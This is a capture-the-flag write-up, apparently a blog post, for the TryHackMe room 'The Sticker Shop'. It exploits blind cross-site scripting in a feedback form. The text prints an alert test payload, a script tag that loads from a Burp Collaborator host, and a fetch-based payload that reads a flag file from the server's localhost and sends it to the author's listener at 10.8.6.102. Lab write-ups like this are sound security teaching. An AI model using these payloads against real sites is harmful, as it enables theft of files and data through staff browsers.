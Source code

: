 ```yaml
---
title: "TryHackMe: The Sticker Shop"
excerpt: "Full Writeups for tryhackme lookup room. 🤗"
toc: true
toc_sticky: true

categories:
  - TryHackMe

last_modified_at: 2024-11-30T12:53:00-05:00

---
```


**The Sticker Shop** is a easy room on Tryhackme . In this We have given flag location on website only we have to retrive it 

## Website Overview
The website consists of two pages - 
### Home Page
- Displays a simple interface with cat stickers etc.
- No vulnerabilities were found here.

### Submit Feedback Page
- Contains a feedback form with a textarea for users to submit their comments.
- The form sends a POST request to /submit_feedback.

### Initial Observations
The feedback form allows user-supplied input, which could be a potential injection point for attacks like Cross-Site Scripting (XSS).

The response to a normal feedback submission is: `Thanks for your feedback! It will be evaluated shortly by our staff`.

Try Normal Paylaod first :
```console
'"><script>alert(1)</script>
```
![Web 80 Index](/images/Posts/tryhackme_sticker_shop/Website.png){:width="1200" height="600" }

## Blind XSS Discovery
1. used Burp-collaborator to check if the Blind XSS is exsist or not
2. Payload used : 
```console
'"><script src=https://xyzh5f7ugxnj7919kl6eqcaohfn6bxzm.oastify.com></script>`
```

![Web 80 Index](/images/Posts/tryhackme_sticker_shop/Blind%20XSS.png){: width="1200" height="600" }
![Web 80 Index](/images/Posts/tryhackme_sticker_shop/Collaborator.png){: width="1200" height="600" }

3. After submitting the payload in the feedback form, I observed a DNS interaction logged in Burp Collaborator, confirming the execution of the payload.

## Exploitation
First I setup a Python server on my Kali Linux machine - `python3 -m http.server 8000`

### Crafting the Payload
To exploit the vulnerability, I crafted a JavaScript payload that:

Fetches the flag from the server’s localhost (127.0.0.1:8080/flag.txt).

I used the localhost address because they said that they host everything on the same computer that they use for browsing the internet and looking at customer feedback.

Sends the retrieved content to my HTTP server.

```console
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.8.6.102:8000/?flag=' + encodeURIComponent(data));
    });
</script>
```
Note: Edit and Replace your own IP Address.


### Injecting the Payload
I submitted the payload in the feedback form.
Shortly after, my HTTP server captured the exfiltrated flag in the query string of an incoming GET request.
![Web 80 Index](/images/Posts/tryhackme_sticker_shop/Fla.png){: width="1200" height="600" }

After URL Decodes it We get The flag


